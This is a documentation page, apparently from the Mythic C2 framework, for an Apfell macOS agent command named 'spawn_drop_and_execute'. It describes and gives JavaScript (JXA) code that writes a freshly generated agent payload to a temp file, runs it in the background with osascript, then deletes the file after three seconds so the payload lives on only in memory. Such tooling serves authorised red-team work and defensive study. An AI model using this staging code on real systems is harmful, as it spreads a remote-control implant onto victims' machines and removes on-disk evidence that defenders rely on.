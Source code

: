 +++
title = "spawn_drop_and_execute"
chapter = false
weight = 100
hidden = false
+++

## Summary

Generate a new payload, drop it to a temp location, execute it with osascript as a background process, and then delete the file. Automatically reports back the temp file it created.

- Needs Admin: False  
- Version: 1  
- Author: @its_a_feature_  

### Arguments

#### template

- Description: apfell agent to use as template to generate a new payload   
- Required Value: True  
- Default Value: None  

## Usage

```
spawn_drop_and_execute
```


## Detailed Summary
This function takes the `apfell` payload indicated by `template`, generates a new instance of it, writes it to a random filename in `/temp`, starts its execution as a backgrounded processes, waits three seconds, and removes the file. The file can be removed from disk because once the `osascript` binary kicks off with the JavaScript code, it's all being executed and compiled (JIT) in memory, so the file on disk is no longer needed. 

The temporary file created is reported back as an artifact automatically.

```JavaScript
let path = "/usr/bin/osascript";
let result = write_data_to_file(file, temp_file);
if(result !== "file written"){return {"user_output": result, "completed": true, "status": 'error'};}
else{artifacts.push({"base_artifact": "File Write", "artifact": temp_file});}
let args = ['-l','JavaScript', temp_file, '&'];
try{
    let pipe = $.NSPipe.pipe;
    let file = pipe.fileHandleForReading;  // NSFileHandle
    let task = $.NSTask.alloc.init;
    task.launchPath = path;
    task.arguments = args;
    task.standardOutput = pipe;
    task.standardError = pipe;
    task.launch;
    artifacts.push({"base_artifact": "Process Create", "artifact": "/usr/bin/osascript " + args.join(" ")});
}
catch(error){
    return {"user_output":error.toString(), "completed": true, "status": "error", "artifacts": artifacts};
}
//give the system time to actually execute the file before we delete it
$.NSThread.sleepForTimeInterval(3);
let fileManager = $.NSFileManager.defaultManager;
fileManager.removeItemAtPathError($(temp_file), $());
```
